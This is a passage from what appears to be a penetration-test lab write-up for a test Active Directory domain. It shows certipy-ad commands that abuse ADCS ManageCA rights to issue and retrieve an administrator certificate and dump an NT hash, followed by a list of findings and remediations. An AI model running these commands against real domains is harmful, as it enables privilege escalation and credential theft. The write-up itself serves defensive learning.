

As seen above, it fails - the request is denied but the request ID was generated - its associated private key is saved (_4.key_). 

4. **Approving the issued request** - identifying the request as _4_, I use _ManageCA_ to approve the previously-denied request:

```bash
certipy-ad ca -u 'm.pearson@tri.lab' -p '[...]' -ns '10.1.12.59' -target 'SWIM-SRV.tri.lab' -ca 'tri-CA' -issue-request '4'
```



5. **Retrieving the issued certificate** - now that the request is approved, I will use the request ID and private key. This results in `administrator`'s certificate retrieval:

```bash
certipy-ad req -u 'm.pearson@tri.lab' -p '[...]' -dc-ip '10.1.12.59' -target 'SWIM-SRV.tri.lab' -ca 'tri-CA' -retrieve '4'
```



Now, similarly to what I have done in the Golden Certificate attack, I can use the key to authenticate to dump the `administrator`'s NT hash:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.1.12.59
```

*However*, while the attack vector is valid, the UPN (`administrator`) for which I have asked the certificate is not valid - as `administrator` is a disabled user:



---
# Vulnerabilities, Misconfigurations and Recommended Remediations

The below items are in no manner an exhaustive list, but rather main points that are relatively easy to address. The referral is corresponding to the attack path rather to the location of the actual finding (process, rather than host):

## _BIKE-SRV_

- **AS-REP Roastable account** - `t.spivey` did not require pre-authentication (_DONT_REQ_PREAUTH_) which yielded its password hash. Though uncrackable, I was able to chain the user being AS-REP Roastable to perform a blind Kerberoast against a list of potential domain user targets, which resulted in the compromise of `j.reed`. To remediate, require Kerberos pre-authentication from all domain accounts unless there is an explicit need for an exception.
- **Writable SMB share enabling NTLM Relay** - the _TransitionZone$_ allowed `j.reed` to write files to it. This enabled me to plant malicious files that coerced `e.ackerlund`'s authentication attempts. These were subsequently relayed to obtain _BIKE-SRV_ local `administrator`'s NT hash. To remediate, restrict share access based on actual requirements, enforce SMB signing or phase out NTLM authentication in favor of Kerberos.

## _SWIM-SRV_

- **Excessive Local Administrator Privileges** - `m.pearson`, a non-tiered domain user account, was a local administrator on _SWIM-SRV_, increasing the impact of its compromise. To remediate, restrict local administrator privileges to dedicated administrative accounts and apply a tiered model to prevent domain identities from holding elevated privileges.

## _RUN-SRV_ (DC)

- **ADCS Misconfiguration** - ADCS permissions were not sufficiently restricted, allowing the CA to be abused for certificate-based privilege escalation and domain compromise. To remediate, review certificate template permissions and restrict administrative and certificate issuing privileges to dedicated PKI administrators.
## Domain-Wide

- **Weak Domain Password Policy** - the policy does not enforce password complexity or account lockout threshold. The lack of complexity allows for simple, easily crackable passwords to be assigned to domain users. No account lockout threshold allows for password spraying. To remediate, enforce complexity and account lockout threshold on the domain policy level.